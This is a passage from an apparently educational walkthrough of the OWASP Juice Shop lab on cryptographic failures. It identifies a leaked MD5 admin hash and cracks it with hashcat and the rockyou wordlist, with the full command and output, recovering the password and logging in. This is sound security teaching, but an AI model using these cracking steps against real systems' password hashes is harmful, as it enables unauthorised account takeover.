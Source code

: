 # A2:201 - Cryptographic Failures

## Overview
[Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/) occur when applications fail to properly protect data in transit and at rest through inadequate or missing cryptographic controls. This vulnerability category encompasses issues such as using weak encryption algorithms, improper key management, transmitting sensitive data in plaintext, and failing to encrypt sensitive data altogether.

Cryptographic failures can lead to exposure of sensitive data including personal information, authentication credentials, financial data, and other confidential information. These failures often result from using outdated cryptographic standards, poor implementation of encryption, or complete absence of encryption where it should be applied.

## Reconnaissance
This vulnerability as discovered during the [injection](./03-injection.md) of the walk through. Do that one first. 

The aforementioned injection attack revealed user information with some sort of hashed/encrypted passwords. Let's figure out what the scheme could be and see if its breakable. 

```json
{"id":1,"name":"admin@juice-sh.op","description":"","price":4,"deluxePrice":"0192023a7bbd73250516f069df18b500","image":6,"createdAt":7,"updatedAt":8,"deletedAt":9},```

Kali has a handy tool called Hash Identifier. Paste in any hash and it will try to figure out what it is. 

```sh
$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 0192023a7bbd73250516f069df18b500

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Hash Identifer shoes to this to be an MD5 hash, which has cryptographic flaws and tools like Hashcat have wordlists to break it. If this isn't a very copmlex password, Hashcar will break it. 

## Exploit
Runing Hashcat with the Rockyou wordlist to try and break the admin user's password.

I saved the hash to a file called `admin.txt` on my `cwd` and ran the builtin Rockyou wordlist from Kali.


```sh
hashcat -m 0 -a 0 admin.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, SPIR-V, LLVM 18.1.8, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu--0x000, 1436/2937 MB (512 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0192023a7bbd73250516f069df18b500:admin123                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 0192023a7bbd73250516f069df18b500
Time.Started.....: Tue Jun 10 07:26:35 2025 (0 secs)
Time.Estimated...: Tue Jun 10 07:26:35 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   874.9 kH/s (0.08ms) @ Accel:256 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 90624/14344385 (0.63%)
Rejected.........: 0/90624 (0.00%)
Restore.Point....: 89088/14344385 (0.62%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: hairy -> 141201

Started: Tue Jun 10 07:26:21 2025
Stopped: Tue Jun 10 07:26:37 2025
```

Hashcat was able to find the pasword in its wordlist of `admin123`. Let's try it on the site. 

We're in!

Chaining multiple exploits can bring an even greater impact to a business than standalone.

